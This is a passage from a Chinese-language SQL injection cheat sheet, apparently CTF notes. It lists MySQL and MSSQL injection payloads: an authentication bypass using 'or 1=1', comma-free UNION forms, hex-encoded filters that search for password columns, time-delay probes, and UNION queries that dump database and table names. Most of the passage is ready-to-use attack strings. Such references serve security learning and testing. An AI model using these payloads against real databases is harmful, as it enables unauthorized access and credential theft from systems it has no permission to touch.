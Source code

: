 - group by with rollup
    - `' or 1=1 group by pwd with rollup limit 1 offset 2#`

- 不使用逗號
    - `LIMIT N, M` => `LIMIT M OFFSET N`
    - `mid(user(), 1, 1)` => `mid(user() from 1 for 1)`
    - `UNION SELECT 1,2,3` => `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)`

- 快速查找帶關鍵字的表
    - `select table_schema,table_name,column_name from information_schema.columns where table_schema !=0x696E666F726D6174696F6E5F736368656D61 and table_schema !=0x6D7973716C and table_schema !=0x706572666F726D616E63655F736368656D61 and (column_name like '%pass%' or column_name like '%pwd%');
    `

- innodb
    - 表引擎為innodb
    - MySQL > 5.5
    - innodb_table_stats、innodb_table_index存放所有庫名表名
    - `select table_name from mysql.innodb_table_stats where database_name=資料庫名;`
    - Example: [Codegate2018 prequal - simpleCMS](https://github.com/w181496/CTF/tree/master/codegate2018-prequal/simpleCMS)

## MSSQL

- 子字串：
    - `SUBSTRING("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `+`
    - `'a'+'b' => 'ab'`
- Delay function
    - `WAIT FOR DELAY '0:0:10'`
- 空白字元
    - `01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20`
- IF語句
    - IF condition true-part ELSE false-part
    - `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
- 註解：
    - `--`
    - `/**/`
- TOP
    - MSSQL沒有`LIMIT N, M`的用法
    - `SELECT TOP 87 * FROM xxx` 取最前面87筆
    - 取第78~87筆
        - `SELECT pass FROM (SELECT pass, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM mydb.dbo.mytable)x WHERE LIMIT between 78 and 87`
- 其它：
    - db_name()
    - user_name()
    - @@servername
    - host_name()
- 爆DB name
    - ```DB_NAME(N)```
    - ```UNION SELECT NULL,DB_NAME(N),NULL--```
    - ```UNION SELECT NULL,name,NULL FROM master ..sysdatabases--```
    - `SELECT catalog_name FROM information_schema.schemata`
    - ```1=(select name from master.dbo.sysdatabases where dbid=5)```
- 爆表名
    - `SELECT table_catalog, table_name FROM information_schema.tables`
    - `SELECT name FROM sysobjects WHERE xtype='U'`
    - `ID=02';if (select top 1 name from DBname..sysobjects where xtype='U' and name not in ('table1', 'table2'))>0 select 1--`